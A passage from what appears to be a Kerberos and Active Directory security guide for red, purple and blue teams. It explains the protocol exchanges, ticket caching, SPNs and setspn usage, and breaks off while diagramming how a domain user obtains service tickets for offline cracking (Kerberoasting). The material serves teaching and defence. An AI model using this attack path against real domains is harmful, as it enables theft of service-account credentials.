








# Kerberos — Deep Explanation, Tools, Attack Research & Practical Lab Guide

> **Target Audience:** Identity Security Architects, Active Directory Administrators, Penetration Testers, Red/Purple Teams, and SOC Threat Hunters.
>
> **Operational Scope:** RFC 4120 Kerberos V5 Protocol Mechanics, Cryptographic Ticket Exchanges, Adversary Tradecraft (T1558), Toolchain Operations (Rubeus, Impacket, Kerbrute, NetExec, Hashcat), Security Telemetry Forensics (Event IDs 4768, 4769, 4771), and Enterprise Defensive Hardening.
>
> **Document Type:** Production-Grade Technical Reference & Hands-on Lab Playbook


---

<div align="center">

<p align="center">
  
  &nbsp;&nbsp;&nbsp;&nbsp;
  
</p>


# 🛡️ Kerberos Protocol & Active Directory Identity Security 🛡️
### Deep Protocol Mechanics • Offensive Tradecraft • Telemetry Forensics • Enterprise Hardening

[](https://web.mit.edu/kerberos/)
[](https://github.com/fortra/impacket)
[](https://datatracker.ietf.org/doc/html/rfc4120)
[](https://attack.mitre.org/techniques/T1558/)
[](https://learn.microsoft.com/en-us/windows-server/security/kerberos/kerberos-authentication-overview)
[](https://github.com/sivaoffl04/Cyber-Blog)

</div>

---

### 📺 Interactive Video Demonstrations & Video Labs

<div align="center">

| Demonstration | Target Architecture | Interactive Video Link |
| :--- | :--- | :---: |
| **Kerberos Authentication Flow & Protocol Internals** | KDC, AS-REQ, TGS-REQ, AP-REQ & PAC Breakdown | [](https://www.youtube.com/results?search_query=kerberos+authentication+flow+active+directory) |
| **Kerberoasting & AS-REP Roasting Hands-on Lab** | Impacket, Rubeus, Hashcat Mode 13100 & 18200 | [](https://www.youtube.com/results?search_query=kerberoasting+rubeus+impacket+hashcat+lab) |
| **SOC Detection Engineering: Windows Event 4769 in Splunk** | SIEM Correlation, Sigma Rules & Anomaly Detection | [](https://www.youtube.com/results?search_query=splunk+event+4769+kerberoasting+detection) |

</div>

---

### 💻 Real-Time Terminal Auditing & Detection Demonstration

The animated demonstration below showcases a complete end-to-end Kerberoasting audit and blue-team detection cycle: discovering SPNs via Impacket `GetUserSPNs.py`, extracting service tickets, offline password cracking via Hashcat (Mode 13100), and alerting on anomalous Event ID 4769 volume within Splunk Enterprise:


---

# 📋 Table of Contents

1. [What Problem Does Kerberos Solve?](#1-what-problem-does-kerberos-solve)
2. [The Three Major Kerberos Components](#2-the-three-major-kerberos-components)
3. [TGT vs TGS — The Core Mental Model](#3-tgt-vs-tgs--the-core-mental-model)
4. [The Complete Kerberos Authentication Flow](#4-the-complete-kerberos-authentication-flow)
5. [Pre-Authentication (PA-ENC-TIMESTAMP)](#5-pre-authentication-pa-enc-timestamp)
6. [AS-REP: Receiving the Ticket Granting Ticket](#6-as-rep-receiving-the-ticket-granting-ticket)
7. [User Wants a Service: The TGS-REQ Exchange](#7-user-wants-a-service-the-tgs-req-exchange)
8. [TGS-REP: The Service Ticket Issuance](#8-tgs-rep-the-service-ticket-issuance)
9. [AP-REQ: Direct Service Access](#9-ap-req-direct-service-access)
10. [Mutual Authentication (AP-REP)](#10-mutual-authentication-ap-rep)
11. [What Exactly is a Service Principal Name (SPN)?](#11-what-exactly-is-a-service-principal-name-spn)
12. [Why SPNs Matter to Attackers](#12-why-spns-matter-to-attackers)
13. [Kerberoasting — Attack Architecture](#13-kerberoasting--attack-architecture)
14. [Why RC4-HMAC Matters (etype 23 / 0x17)](#14-why-rc4-hmac-matters-etype-23--0x17)
15. [Modern AES Changes the Picture (AES128 & AES256)](#15-modern-aes-changes-the-picture-aes128--aes256)
16. [The Kerberos Attack Family (MITRE ATT&CK T1558)](#16-the-kerberos-attack-family-mitre-attck-t1558)
17. [The Kerberos Tool Ecosystem](#17-the-kerberos-tool-ecosystem)
18. [Rubeus — The Windows Operator's Swiss Army Knife](#18-rubeus--the-windows-operators-swiss-army-knife)
19. [Rubeus Kerberoasting Hands-On](#19-rubeus-kerberoasting-hands-on)
20. [Impacket — The Linux/Python Powerhouse](#20-impacket--the-linuxpython-powerhouse)
21. [GetUserSPNs.py Deep Dive](#21-getuserspnspy-deep-dive)
22. [Practical GetUserSPNs Lab: Enumeration](#22-practical-getuserspnspy-lab-enumeration)
23. [Practical GetUserSPNs Lab: Requesting TGS Material](#23-practical-getuserspnspy-lab-requesting-tgs-material)
24. [Saving and Managing Roast Output](#24-saving-and-managing-roast-output)
25. [Offline Password Cracking: Hashcat & John the Ripper](#25-offline-password-cracking-hashcat--john-the-ripper)
26. [Why Offline Cracking is Dangerous](#26-why-offline-cracking-is-dangerous)
27. [AS-REP Roasting: Mechanics & Differentiation](#27-as-rep-roasting-mechanics--differentiation)
28. [GetNPUsers.py: Practical AS-REP Roasting](#28-getnpuserspy-practical-as-rep-roasting)
29. [Kerbrute: User Enumeration & Password Spraying](#29-kerbrute-user-enumeration--password-spraying)
30. [NetExec: Modern Kerberos Workflows](#30-netexec-modern-kerberos-workflows)
31. [Native Windows Inspection: `klist`](#31-native-windows-inspection-klist)
32. [Native Active Directory Administration: `setspn`](#32-native-active-directory-administration-setspn)
33. [Wireshark: Packet-Level Protocol Dissection](#33-wireshark-packet-level-protocol-dissection)
34. [Kerberos Ports & Active Directory Dependencies](#34-kerberos-ports--active-directory-dependencies)
35. [The Critical Role of DNS in Kerberos](#35-the-critical-role-of-dns-in-kerberos)
36. [The Symbiotic Architecture: AD, LDAP, DNS & Kerberos](#36-the-symbiotic-architecture-ad-ldap-dns--kerberos)
37. [Kerberos Attack-Path Research: 6 Purple-Team Questions](#37-kerberos-attack-path-research-6-purple-team-questions)
38. [The Dangerous Vulnerability Combination](#38-the-dangerous-vulnerability-combination)
39. [SOC Telemetry & Detection: Windows Security Event Logs](#39-soc-telemetry--detection-windows-security-event-logs)
40. [Example SOC Detection Logic & Heuristics](#40-example-soc-detection-logic--heuristics)
41. [Production Splunk Detection Engineering (SPL Queries)](#41-production-splunk-detection-engineering-spl-queries)
42. [Detection Realism: Why "RC4 = Attack" is a Flawed Detection](#42-detection-realism-why-rc4--attack-is-a-flawed-detection)
43. [Purple-Team Validation Lifecycle](#43-purple-team-validation-lifecycle)
44. [Defensive Hardening: AES & Password Governance](#44-defensive-hardening-aes--password-governance)
45. [Group Managed Service Accounts (gMSA)](#45-group-managed-service-accounts-gmsa)
46. [Least Privilege Architecture for Service Accounts](#46-least-privilege-architecture-for-service-accounts)
47. [Comparative Tool Matrix: Rubeus vs Impacket vs Kerbrute](#47-comparative-tool-matrix-rubeus-vs-impacket-vs-kerbrute)
48. [The 15-Phase Kerberos Learning Roadmap](#48-the-15-phase-kerberos-learning-roadmap)
49. [Advanced R&D Research Modules](#49-advanced-rd-research-modules)
50. [Official References & Authoritative Documentation](#50-official-references--authoritative-documentation)
- [The Ultimate Kerberos Mental Model](#the-ultimate-kerberos-mental-model)

---

# 1. What Problem Does Kerberos Solve?

In an enterprise network running Active Directory, thousands of client workstations access dozens of shared network resources every second: file shares (CIFS/SMB), web dashboards (HTTP/HTTPS), database instances (MSSQL), directory queries (LDAP), and remote management endpoints (WinRM/RPC).

### The Insecure Legacy Model (NTLM / Plaintext)

Without a centralized ticket-granting architecture, accessing a network resource historically required passing user credentials directly to target servers:

```
Alice                    File Server                   Domain Controller
  |                           |                                |
  |-- (Cleartext/NTLM Hash) ->|                                |
  |                           |-- "Is Alice's password valid?"->|
  |                           |<-- "Yes, Alice is valid" ------|
  |<-- Access Granted --------|                                |
```

This legacy design exhibits critical architectural vulnerabilities:
1. **Password Exposure:** The client must reveal passwords or password hashes to intermediate file servers, print servers, and application proxies. If any intermediate server is compromised, the attacker intercepts plaintext credentials or NTLM hashes.
2. **Performance Bottleneck:** Every target service must constantly query the Domain Controller (DC) for every inbound authentication request, overwhelming the network.
3. **No Mutual Authentication:** The client has no cryptographic proof that the file server is legitimate, enabling Man-in-the-Middle (MitM) spoofing and NTLM relay attacks.

### The Modern Kerberos Solution

Kerberos changes the trust topology fundamentally. Instead of sending credentials to application servers, the user proves their identity **once** to a trusted third party—the **Key Distribution Center (KDC)**. The KDC issues cryptographically signed and encrypted **tickets**. The user subsequently presents tickets directly to network services:



### Architectural Advantages of Kerberos
* **Single Sign-On (SSO):** Users log in once at workstation boot and obtain a Ticket Granting Ticket (TGT). All subsequent application access uses tickets derived from that TGT without re-entering credentials.
* **Mutual Authentication:** Both the client and the service verify each other's cryptographic identity before exchanging session data.
* **Reduced Password Exposure:** Plaintext passwords and NT hashes never travel across the network during service access.
* **Ticket-Based Delegation:** Kerberos supports constrained delegation and resource-based constrained delegation (RBCD), enabling front-end web apps to safely impersonate users to back-end databases.
* **High Efficiency & Scalability:** Services validate tickets locally using symmetric cryptography without calling the Domain Controller on every request.

---

# 2. The Three Major Kerberos Components

Kerberos relies on three distinct architectural entities:

```text
+-----------------------------------------------------------------------------------------+
|                               KERBEROS TRIAD ENTITIES                                   |
+--------------------------+------------------------------------+-------------------------+
|  1. The Client           |  2. Key Distribution Center (KDC)  |  3. The Target Service  |
|  - User Workstation      |  - Integrated into Domain Control. |  - File / Web / DB Host |
|  - Active Directory User |  - Authentication Service (AS)     |  - Runs under an SPN    |
|  - Holds Ticket Cache    |  - Ticket Granting Service (TGS)   |  - Validates AP-REQ     |
+--------------------------+------------------------------------+-------------------------+
```

### 2.1 The Client
The machine or security principal initiating the connection:
* **User Identity:** e.g., `alice@CORP.LOCAL`
* **Workstation:** e.g., `WORKSTATION01.corp.local`
* **Function:** Requests authentication from the KDC, caches received tickets in memory (LSASS on Windows, ccache on Linux), and presents service tickets to resources.

### 2.2 The Key Distribution Center (KDC)
The trusted central authority. In Active Directory, every Domain Controller operates as a KDC and hosts two logical services:
1. **Authentication Service (AS):** Validates initial user authentication and issues the **Ticket Granting Ticket (TGT)**.
2. **Ticket Granting Service (TGS):** Inspects the user's TGT and issues a **Service Ticket (TGS)** for a requested service.

### 2.3 The Active Directory Database (AD DS)
The central account database (`NTDS.dit`). The KDC accesses AD DS to retrieve:
* User password hashes (used by the AS to verify pre-authentication)
* The `krbtgt` account hash (used to encrypt TGTs)
* Service account password hashes (used to encrypt service tickets)
* Group memberships and Security IDs (SIDs) embedded into the **PAC (Privilege Attribute Certificate)**

---

# 3. TGT vs TGS — The Core Mental Model

Understanding the distinct separation between a **TGT** and a **TGS** is the single most critical concept in Kerberos security:

| Property | Ticket Granting Ticket (TGT) | Ticket Granting Service Ticket (TGS) |
| :--- | :--- | :--- |
| **Full Name** | Ticket Granting Ticket | Service Ticket |
| **Issued By** | Authentication Service (AS) | Ticket Granting Service (TGS) |
| **Encrypted With** | Domain Controller's **`krbtgt`** account secret | Target **Service Account's** secret key |
| **Readable By** | Only the KDC / Domain Controllers | The specific target service host |
| **Purpose** | Proves user identity to the KDC to request TGS tickets | Proves user authorization directly to the target application |
| **Target Service** | `krbtgt/DOMAIN.LOCAL` | `cifs/file01`, `HTTP/web01`, `MSSQLSvc/sql01` |
| **Client Presentation**| Sent only to the KDC inside `TGS-REQ` | Sent directly to the service inside `AP-REQ` |
| **Attack Technique** | Golden Ticket (`krbtgt` compromise) | Kerberoasting (`T1558.003`) / Silver Ticket |

```text
                                +-------------------+
                                |    TGT Acquired   |
                                | (krbtgt-encrypted)|
                                +---------+---------+
                                          |
                +-------------------------+-------------------------+
                |                         |                         |
                v                         v                         v
        +---------------+         +---------------+         +---------------+
        |  TGS for CIFS |         |  TGS for HTTP |         | TGS for MSSQL |
        | (File Server) |         |  (Web Server) |         | (Database)    |
        +---------------+         +---------------+         +---------------+
```

> [!NOTE]
> A client never directly hands a TGT to a file server or web application. The TGT is strictly an admission voucher presented back to the KDC to request individual, service-specific TGS tickets.

---

# 4. The Complete Kerberos Authentication Flow

The end-to-end authentication exchange follows a standardized multi-step handshake defined in RFC 4120:





---

# 5. Pre-Authentication (PA-ENC-TIMESTAMP)

In original Kerberos V4, anyone could submit an `AS-REQ` for any username, and the KDC would immediately return an `AS-REP` containing a message encrypted with that user's password hash. Attackers could harvest hashes for every user in the organization without sending a single password guess.

To eliminate this vulnerability, RFC 4120 introduced **Kerberos Pre-Authentication**:

```
Alice Workstation                                            Domain Controller (KDC)
       |                                                                |
       |-- 1. AS-REQ (Without Pre-Auth) ------------------------------->|
       |<-- 2. KRB_ERROR: KDC_ERR_PREAUTH_REQUIRED (0x19) --------------|
       |                                                                |
       |-- 3. AS-REQ with PA-ENC-TIMESTAMP ---------------------------->|
       |      [Encrypted Timestamp = Enc(UserPasswordKey, CurrentTime)] |
       |<-- 4. AS-REP (Returns TGT) ------------------------------------|
```

### Technical Mechanics
1. When Alice logs in, her workstation generates a timestamp (UTC).
2. The workstation encrypts this timestamp using the secret key derived from Alice's password (NT hash or AES key).
3. The encrypted timestamp is sent inside the `padata` (Pre-Authentication Data) field of `AS-REQ`.
4. The KDC looks up Alice's secret key in Active Directory and attempts to decrypt the timestamp:
   * **If decryption succeeds and the timestamp is within the allowable clock skew (default: 5 minutes):** The user knows the correct password. The KDC processes `AS-REQ`.
   * **If decryption fails:** The KDC returns `KDC_ERR_PREAUTH_FAILED` (Event ID 4771).
   * **If clock skew is exceeded:** The KDC returns `KDC_ERR_SKEW`.

> [!WARNING]
> If pre-authentication is manually disabled for an account (`DONT_REQ_PREAUTH`), the account becomes immediately vulnerable to **AS-REP Roasting** (`MITRE T1558.004`).

---

# 6. AS-REP: Receiving the Ticket Granting Ticket

Once pre-authentication succeeds, the KDC constructs the `AS-REP` message. The response contains two distinct payloads:

```text
+---------------------------------------------------------------------------------------+
|                                    AS-REP PAYLOAD                                     |
+---------------------------------------------------------------------------------------+
|  Payload 1: Encrypted with User's Secret Key (Alice's NT/AES Key)                     |
|  - Logon Session Key (Ephemeral symmetric key shared between Alice & KDC)            |
|  - TGT Validity Lifespan (Default: 10 hours) & Renewal Window (Default: 7 days)       |
+---------------------------------------------------------------------------------------+
|  Payload 2: The Ticket Granting Ticket (TGT) (Encrypted with KRBTGT Secret Key)       |
|  - Client Identity: alice@CORP.LOCAL                                                  |
|  - Client Network Address                                                             |
|  - Validity Timestamps (StartTime, EndTime, RenewTill)                                |
|  - Logon Session Key Copy (Allows KDC to decrypt requests from Alice)                 |
|  - PAC (Privilege Attribute Certificate): SIDs, Group Memberships, AdminCount         |
+---------------------------------------------------------------------------------------+
```

When Alice's workstation receives `AS-REP`, it decrypts Payload 1 using her password key to extract the **Logon Session Key**. Alice cannot decrypt Payload 2 (the TGT) because it is encrypted with the domain's master `krbtgt` key.

The ticket is stored in the local Kerberos ticket cache (`LSASS.exe` memory on Windows). You can inspect this cached ticket using the native Windows utility `klist`:

```cmd
klist
```

```text
Cached Tickets: (1)

#0>     Client: alice @ CORP.LOCAL
        Server: krbtgt/CORP.LOCAL @ CORP.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 10/18/2026 09:15:00 (local)
        End Time:   10/18/2026 19:15:00 (local)
        Renew Time: 10/25/2026 09:15:00 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
```

---

# 7. User Wants a Service: The TGS-REQ Exchange

Suppose Alice attempts to access a shared folder on an internal corporate server:

```cmd
dir \\FILE01.corp.local\Finance
```

Alice's operating system recognizes that SMB requires authentication. It does **not** prompt Alice for her password. Instead, it checks her Kerberos ticket cache. Finding no service ticket for `FILE01`, the workstation constructs a **`TGS-REQ`** message and sends it to the KDC on port 88.

### Inside the TGS-REQ Packet:
* **The TGT:** Encrypted with the DC's `krbtgt` key.
* **The Requested SPN:** `cifs/FILE01.corp.local`
* **The Authenticator:** A timestamp encrypted with the **Logon Session Key** (proving Alice owns the cached TGT).

---

# 8. TGS-REP: The Service Ticket Issuance

When the KDC receives `TGS-REQ`:
1. It uses its own `krbtgt` private key to decrypt the TGT.
2. It extracts the **Logon Session Key** from inside the TGT and uses it to decrypt Alice's Authenticator.
3. It validates that the Authenticator timestamp matches the current time (preventing replay attacks).
4. It queries Active Directory to locate the account associated with `cifs/FILE01.corp.local`.
5. It extracts the user's **PAC** from the TGT and signs it with the KDC key.
6. It generates a new **Service Session Key** shared between Alice and FILE01.
7. It constructs the **`TGS-REP`** packet:
   * **Part A (For Alice):** Contains the Service Session Key, encrypted with Alice's Logon Session Key.
   * **Part B (The Service Ticket):** Contains Alice's identity, the PAC, and the Service Session Key, **encrypted with FILE01's service account secret key**.

---

# 9. AP-REQ: Direct Service Access

Alice now possesses a valid Service Ticket for `cifs/FILE01.corp.local`. Her workstation connects directly to `FILE01` on TCP port 445 (SMB) and sends an **`AP-REQ`** (Application Request) message:

```text
Alice Workstation                                            File Server (FILE01)
       |                                                               |
       |-- AP-REQ (Service Ticket + Authenticator) ------------------->|
       |   - Service Ticket: Encrypted with FILE01's Secret Key       |
       |   - Authenticator: Encrypted with Service Session Key        |
       |                                                               |
       |   FILE01 Decrypts Ticket -> Extracts Service Session Key     |
       |   FILE01 Decrypts Authenticator -> Validates Alice Identity   |
       |   FILE01 Reads PAC -> Checks ACLs for \\FILE01\Finance        |
       |<-- Access Granted (No DC Contact Required!) ------------------|
```

> [!IMPORTANT]
> Because `FILE01` has its own copy of its machine account secret, it decrypts the service ticket and validates Alice locally. The File Server does **not** need to contact the Domain Controller. This makes Kerberos exceptionally performant across enterprise networks.

---

# 10. Mutual Authentication (AP-REP)

In sensitive enterprise operations, clients must verify that the service they are contacting is genuine (protecting against rogue SMB servers or spoofed DNS records).

Kerberos provides optional **Mutual Authentication**:
1. When Alice sends `AP-REQ`, she sets the `mutual-required` flag in `ap-options`.
2. Upon successfully decrypting the service ticket, `FILE01` extracts the timestamp from Alice's Authenticator.
3. `FILE01` encrypts this timestamp using the **Service Session Key** and transmits an **`AP-REP`** message back to Alice.
4. Alice decrypts `AP-REP` using her local copy of the Service Session Key. If the decrypted timestamp matches her original request, she knows the server possesses the valid service secret key.

---

# 11. What Exactly is a Service Principal Name (SPN)?

A **Service Principal Name (SPN)** is a unique identifier assigned to a service instance running in an Active Directory forest. Kerberos uses SPNs to map a requested service ticket to the specific domain account used to encrypt that ticket.

### SPN Syntax

```text
<service class>/<host>:<port>/<service name>
```

| Component | Description | Examples |
| :--- | :--- | :--- |
| **Service Class** | Specifies the protocol or software category | `cifs`, `http`, `MSSQLSvc`, `ldap`, `HOST`, `WSMAN` |
| **Host** | Fully Qualified Domain Name (FQDN) or NetBIOS name | `sql01.corp.local`, `web01.corp.local`, `dc01` |
| **Port** | Optional TCP/UDP port (required if non-standard) | `:1433`, `:8080`, `:5000` |
| **Service Name** | Optional instance name for multi-instance applications | `/FinanceDB` |

### Computer Accounts vs User Accounts

Every domain-joined Windows computer has a machine account (e.g., `FILE01$`). Machine accounts are automatically assigned standard SPNs (`HOST/FILE01`, `RestrictedKrbHost/FILE01`, `cifs/FILE01`). Machine account passwords are 120-character random strings generated and rotated by Windows every 30 days—making them virtually uncrackable.

However, enterprise applications (such as Microsoft SQL Server, IIS Application Pools, SAP, or backup agents) are frequently configured to run under **User Service Accounts** (e.g., `svc_sql`, `svc_backup`). When an administrator maps an SPN to a **User Account**, that account's password becomes the encryption key for the resulting service tickets.

### Managing SPNs with `setspn`

Microsoft provides the native command-line utility `setspn.exe` to inspect and configure SPNs:

```cmd
:: List all SPNs registered to a specific account
setspn -L corp\svc_sql

:: Query the directory to find which account owns an SPN
setspn -Q MSSQLSvc/sql01.corp.local:1433

:: Register a new SPN to a user service account safely (checks for duplicates)
setspn -S MSSQLSvc/sql01.corp.local:1433 corp\svc_sql

:: Delete an SPN
setspn -D MSSQLSvc/sql01.corp.local:1433 corp\svc_sql
```

---

# 12. Why SPNs Matter to Attackers

The cryptographic architecture of Kerberos grants a unique capability to any authenticated domain user:

```
[ Authenticated Domain User ]
             |
             | 1. Query LDAP for all User Accounts with an SPN
             v
[ Active Directory Database ]
             |
             | 2. Request TGS for target SPN (e.g., MSSQLSvc/sql01:1433)
             v
[ Domain Controller / KDC ]
             |
             | 3. Issues TGS encrypted with svc_sql's Password Hash
             v
[ Attacker Extracts Ticket to Disk ]
             |
